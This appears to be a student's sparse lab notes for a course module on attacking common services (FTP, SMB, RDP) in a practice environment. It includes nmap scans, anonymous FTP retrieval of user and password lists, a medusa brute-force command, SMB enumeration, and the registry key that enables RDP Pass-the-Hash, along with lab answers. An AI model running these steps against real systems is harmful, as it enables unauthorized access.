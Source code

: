 # Attacking Common Services

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## FTP

### Attacking FTP

**What port is the FTP service running on?**

* `nmap 10.129.27.170 -sVC`
  * FTP on port 2121

**What username is available for the FTP server?**

`ftp anonymous@<IP> 2121`

`get users.list`&#x20;

`get passwords.list`

* try users from the list...
  * second one (robin) working

**Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer.**

`medusa -u robin -P passwords.list -h 10.129.205.248 -n 2121 -M ftp`

`ssh robin@10.129.205.248`

* PW
* cat flag.txt

## SMB

### Attacking SMB

`smbclient -L //10.129.205.248/`

`smbmap -H 10.129.205.248`

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>



## SQL Databases

### Attacking SQL Databases

## RDP

### Attacking RDP

<figure><img src=".gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* connect via RDP

**What is the name of the file that was left on the Desktop? (Format example: filename.txt)**

* pentest-notes.txt

**Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?**

* DisableRestrictedAdmin

**Connect via RDP with the Administrator account and submit the flag.txt as you answer.**

*

## DNS

### Attacking DNS

## SMTP

### Attacking Email Services

## Skills Assessment

### Easy

### Medium

### Hard
